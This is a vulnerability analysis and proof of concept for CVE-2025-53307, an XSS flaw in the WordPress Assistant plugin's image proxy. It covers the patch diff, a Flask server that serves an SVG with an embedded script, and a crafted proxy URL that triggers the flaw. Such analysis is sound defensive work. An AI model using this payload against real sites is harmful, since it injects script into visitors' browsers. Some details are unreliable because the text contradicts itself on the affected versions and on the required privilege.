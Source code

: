 # CVE-2025-53307 Analysis & POC

---

The vulnerability exists in the **Assistant** plugin for WordPress prior to version **3.6.2**. This could allow an attacker to inject malicious code (e.g., redirect scripts, ads, or other HTML payloads) into the website, which would execute when visitors open the page.

* **CVE ID**: [CVE-2025-53307](https://www.cve.org/CVERecord?id=CVE-2025-53307)
* **Product**: [WordPress Assistant Plugin](https://wordpress.org/plugins/assistant/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 1.5.2
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

---

## Requirements

* [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
* **Assistant**: v1.5.2 (vulnerable) and v1.5.3 (patched)
* **Diff tool**: **meld** or any tool capable of comparing two versions

---

## Analysis

The application displays user-provided image content directly via a URL **without validating or fully checking the MIME type**. This allows an attacker to supply a file disguised as an image, which when processed by the browser, executes malicious code → resulting in an XSS vulnerability.

### Patch Diff

Use any diff tool to compare the vulnerable version and the patch.

![Patch Diff](patch_diff.png "Diff between vulnerable and patched version")

In this case, there are significant differences between the two versions. For easier tracking, the [change log](https://wordpress.org/plugins/assistant/#developers) identifies where the XSS patch was applied:

```
Changelog
1.5.3 (2025-09-08)

- Changes to support the integration of Assistant in Beaver Builder version 2.10
- Fixed dark mode issues on the Home app and sidebar.
- Security: Fixed a potential XSS vulnerability in the "image proxy"
```

👉 The vulnerability is located in **backend/src/Hooks/ImageProxy.php**. Observing the differences between the two versions:

![Patch Diff 1](patch_diff1.png "Differences in the render_image function of ImageProxy.php")

The changes occur in the `render_image` function, which:

* Accepts a URL parameter from the query string `($_GET['url'])`.
* Sends a request from the server to that URL to fetch the content.
* Prevents **SSRF** using `wp_safe_remote_get`.
* If the content has a **Content-Type** header starting with `image/`, then:

  * Sends the same **Content-Type** header back to the client.
  * Echoes the file content to the browser.
* The browser displays the image **not directly from the original source but through the WordPress server**.

> SVG files also have a **Content-Type** starting with `image/` and can contain embedded JavaScript → XSS can occur.

The patch added an additional check to verify the **actual MIME type** of the file to prevent XSS via SVG or maliciously disguised files.

```php
$filesystem = self::filesystem();
$tmpfile    = tempnam( '/tmp', 'assistant' );
$filesystem->put_contents( $tmpfile, $body );
$validimage = wp_get_image_mime( $tmpfile );
$filesystem->delete( $tmpfile );

if ( ! $validimage ) {
    return false;
}
```

[`wp_get_image_mime()`](https://github.com/WordPress/wordpress-develop/blob/6.8.2/src/wp-includes/functions.php#L3330-L3417) uses internal image processing (based on the binary data of the file) to determine the actual MIME type.

If the result is not a valid image → returns **false**.

### How it works

In the `__construct` of the `ImageProxy` class, the `render_image()` method is called via the `'init'` action hook. The `'init'` hook runs early in WordPress loading, after core objects are initialized but before output is sent to the browser.

`render_image` is called only if the current user has permission to edit other users' posts and the `$_GET['fl_asst_image_proxy']` parameter exists.

👉 Accessing `/wp-admin/?fl_asst_image_proxy=value1&url=http://yoursite/image-path` triggers `render_image` and returns the image content to the browser.

---

## Exploit

### Detect XSS

Create a simple [web page](https://github.com/w41bu1/w41test) returning an SVG containing an XSS payload:

```py
from flask import Flask, Response

app = Flask(__name__)

@app.route('/')
def home():
    return 'Hello, World!'

@app.route('/svg')
def about():
    svg = """<?xml version="1.0" encoding="UTF-8"?>
    <svg xmlns="http://www.w3.org/2000/svg">
        <script>alert(document.domain)</script>
    </svg>"""
    return Response(svg, mimetype="image/svg+xml")
```

Send a request with the **url parameter** pointing to `https://yoursite/svg`:

```
http://localhost/wp-admin/?fl_asst_image_proxy=abc&url=https://yoursite/svg
```

👉 Successful for `Unauthenticated` because as long as the user has permission, accessing the URL triggers XSS in the victim’s browser. The attacker does not need to log in.

![Detect](detect.png "SVG with XSS payload displayed via image proxy")

---

## Conclusion

The **CVE-2025-53307** vulnerability in the WordPress Assistant plugin (**<= v1.5.2**) allows XSS via `render_image()` because it does not validate the actual file **MIME type**. Version **v1.5.3** patched this by verifying the file content before returning it to the browser.

**Key takeaways**:

* Do not trust the **Content-Type header** from **HTTP responses**.
* Always validate the **actual MIME type** of the file.

---

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Assistant Plugin <= 1.5.2 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/assistant/vulnerability/wordpress-assistant-plugin-1-5-2-cross-site-scripting-xss-vulnerability)

---

